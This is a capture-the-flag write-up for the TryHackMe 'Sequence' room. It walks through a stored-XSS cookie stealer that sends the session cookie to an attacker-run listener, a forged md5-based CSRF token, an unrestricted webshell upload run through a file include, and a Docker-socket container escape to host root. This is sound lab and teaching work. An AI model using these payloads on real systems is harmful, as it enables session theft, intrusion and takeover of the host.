

## Overview

[Sequence](https://tryhackme.com/room/sequence) is a web box that strings a
whole chain together rather than resting on one flaw. A stored XSS in the
contact form hands over an admin session cookie; that session plus a CSRF
"token" that turns out to be nothing more than `md5("admin")` lets me promote an
account and reach an internal finance panel. The panel is gated by a
client-side password check — cosmetic — and ships an unrestricted file upload.
Pair the uploaded shell with a `dashboard.php` endpoint that includes whatever
file you hand it and you get code execution, but only inside a Docker
container. The flag lives on the host, so the last step is a container escape
through a mounted `docker.sock`.

## Enumeration

```bash
nmap -T4 10.80.138.154
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Two ports, and SSH isn't going anywhere without creds, so everything starts on
80. The app serves itself under the `review.thm` vhost (the promotion endpoint
later only answers to that hostname), so I mapped it to the target in
`/etc/hosts` before poking around. The front page has the usual brochure-ware,
and the one piece of real interaction is a contact form posting to
`/contact.php`.

## Initial Access

### Stored XSS in the contact form

A contact form that's read by a human on the other side is the obvious place to
try XSS. I dropped a cookie-stealer into the `message` field and submitted it:

```http
POST /contact.php HTTP/1.1
Host: 10.80.138.154
Content-Type: application/x-www-form-urlencoded

name=admin&phone=12347&message=Hello. <script>document.location='http://<x.x.x.x>:8000?c='+document.cookie</script>
```

Then a listener to catch whatever calls back:

```bash
python3 -m http.server 8000
```

A minute later a reviewer opened the message and their browser did exactly what
I asked:

```text
10.80.138.154 - - [28/Aug/2026 07:59:03] "GET /?c=PHPSESSID=<ADMIN_PHPSESSID> HTTP/1.1" 200 -
```

The session cookie came across in the clear, which means it isn't flagged
`HttpOnly` — JavaScript could read it. Dropping that `PHPSESSID` into my own
browser put me straight into the admin side of the app.

### Forging the co-admin promotion

With the admin session live, the interesting request is the one that promotes a
user:

```http
GET /promote_coadmin.php?username=mod&csrf_token_promote=21232f297a57a5a743894a0e4a801fc3
```

That `csrf_token_promote` value is `21232f297a57a5a743894a0e4a801fc3`, which is
just `md5("admin")`. So the anti-CSRF protection is a static hash of a username
— completely predictable, and forgeable by anyone who can guess the scheme.
Promoting `mod` to co-admin opened up the panels the regular view keeps hidden.

> The token looks like a random hex blob, so it's easy to wave past as "some
> CSRF thing". Hash the obvious strings (`admin`, the username, the app name)
> before you assume it's unguessable — here `echo -n admin | md5sum` matches it
> exactly.
{: .prompt-tip }

### The leaked email

Co-admin access exposed an internal mail thread that spells out the next
target:

```text
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

The Lottery and Finance panels have been created. Both are in a controlled
environment: the Finance panel (/finance.php) is on the internal 192.x network,
and the Lottery panel (/lottery.php) is on the same segment. For now access is
protected with a completed 8-character alphanumeric password (<PANEL_PASS>), to
restrict exposure and safeguard details about potential investors.
```

So there's a finance panel behind a password, and the author kindly pasted the
password into the email. `/lottery.php` turned out to be a "Coming Soon"
placeholder with nothing behind it, so `/finance.php` is where I pointed next.

## Exploitation

### A password check that runs in your browser

`finance.php` greets you with a password overlay, and the unlock logic is a
lump of obfuscated JavaScript at the bottom of the page. The obfuscation is the
usual string-array-rotation trick, and the whole point of that pattern is that
the strings are still *in the file* — you just have to read the array. Dumped
out, the array ends with the comparison value and the error text:

```text
'❌ Invalid password.', 'finance-accessPassword', 'finance-overlay', ...,
'block', 'display', '<PANEL_PASS>'
```

The check is `enteredValue === '<PANEL_PASS>'`, done entirely client-side — it
toggles a `display:none` on a `<div>` that's already in the DOM. The password
matches the one from the email, but it barely matters: the full panel markup,
including the upload form, ships in the response whether you type the password
or not.

### Unrestricted file upload

Behind the overlay is an investor-details upload form, and the handler does
nothing to earn its keep:

```php
$filename = basename($_FILES['investor_file']['name']);
$filepath = $upload_dir . $filename;
if (move_uploaded_file($_FILES['investor_file']['tmp_name'], $filepath)) {
    // ...reports uploads/<filename> back to the user
}
```

No extension allow-list, no MIME check, and the file lands in a web-reachable
`uploads/` directory under its original name. A PHP webshell goes straight up
as `shell.php`.

### Code execution through dashboard.php

The upload alone doesn't execute anything — hitting `uploads/shell.php`
directly isn't where the win is. The admin side has a `dashboard.php` that takes
a `feature` parameter and includes whatever path it's given:

```http
POST /dashboard.php HTTP/1.1
Host: 10.80.138.154
Content-Type: multipart/form-data; boundary=----b8e3...

------b8e3...
Content-Disposition: form-data; name="feature"

uploads/shell.php
------b8e3...--
```

Point `feature` at the file I just uploaded and the shell gets included and
runs. That gave me a shell as `root` (uid 0), and I upgraded it to a proper tty:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

### This isn't the host

Being root felt too easy, and it was — a quick look says this is a container,
not the box:

```bash
root@4f18a45cca05:/# cat /proc/1/cmdline | tr '\0' ' '; echo
php -S 0.0.0.0:80 -t /var/www/html/
```

PID 1 is the PHP dev server, there's a `/.dockerenv`, and `/proc/1/cgroup` is
full of `/docker/4f18a45cca05...` lines. `/etc/hosts` puts this container on
`192.168.100.10`, matching the "internal 192.x network" from the email. The web
root only holds `finance.php`, `lottery.php` and `uploads/` — `dashboard.php`
isn't even on this filesystem, so the admin app I came in through is served from
somewhere else entirely.

I went looking for the flag anyway, and it isn't here:

```bash
grep -rIn --exclude-dir={proc,sys,dev,run} -E "THM\{[^}]*\}" / 2>/dev/null   # nothing
find / -xdev -type f \( -iname "*flag*" -o -iname "root.txt" \) 2>/dev/null  # only header files
```

Empty. The flag is on the host, so the container is a stop on the way out, not
the destination.

### Escaping through the Docker socket

Checking what the container was handed, two things stood out:

```bash
root@4f18a45cca05:/# ls -la /run/docker.sock
srw-rw---- 1 root 121 0 Aug 29 10:44 /run/docker.sock
root@4f18a45cca05:/# which docker
/usr/bin/docker
```

The host's Docker socket is mounted *into* the container, and the `docker` CLI
is present. Talking to that socket means talking to the host's Docker daemon, so
I can spin up a new container and bind-mount the host's root filesystem into it.

First attempt reached for `alpine`, which the daemon doesn't have cached — and
the box has no internet, so the pull just hangs and times out:

```text
root@4f18a45cca05:/# docker run -v /:/hostfs --rm -it alpine chroot /hostfs sh
docker: Error response from daemon: Get "https://registry-1.docker.io/v2/": context deadline exceeded
```

No point fighting the network — `docker images` shows what's already local, so
I used one of those instead:

```bash
root@4f18a45cca05:/# docker images
REPOSITORY      TAG       IMAGE ID       CREATED         SIZE
phpvulnerable   latest    d0bf58293d3b   15 months ago   926MB
php             8.1-cli   0ead645a9bc2   17 months ago   527MB

root@4f18a45cca05:/# docker run -v /:/hostfs --rm -it php:8.1-cli chroot /hostfs sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Mounting `/` from the host into `/hostfs` and `chroot`-ing into it drops me onto
the real box as root. The flag was sitting in root's home:

```bash
# cat /root/flag.txt
THM{...}
```

> The host filesystem is mounted read-write here (`-v /:/hostfs`), so anything
> you do in that chroot — editing `/etc/passwd`, dropping an SSH key, writing to
> `/root` — hits the actual box, not a throwaway layer. Tread lightly on a
> shared or graded host.
{: .prompt-warning }

## Conclusion

The box is a chain where each link is individually small but each one feeds the
next:

1. **Stored XSS** in `/contact.php`, read by an admin, exfiltrates a non-`HttpOnly`
   session cookie.
2. **Session hijack** gives admin access; the **CSRF token is `md5("admin")`**,
   so the co-admin promotion is trivially forgeable.
3. An **internal email** leaks the finance panel's existence and its password.
4. That password check is **client-side only**, and the panel ships an
   **unrestricted file upload**.
5. `dashboard.php` **includes an attacker-controlled path**, turning the upload
   into **RCE** — but inside a Docker container.
6. The container has the host's **`docker.sock` mounted**, so a new container
   with `-v /:/hostfs` mounts the host root and hands over **root on the box**.



### Tools used

| Stage | Tools |
| --- | --- |
| Enumeration | `nmap`, browser |
| XSS / session theft | Burp (request crafting), `python3 -m http.server` |
| Web exploitation | Browser, deobfuscated JS, PHP webshell |
| Container escape | `docker` CLI, `/run/docker.sock` |
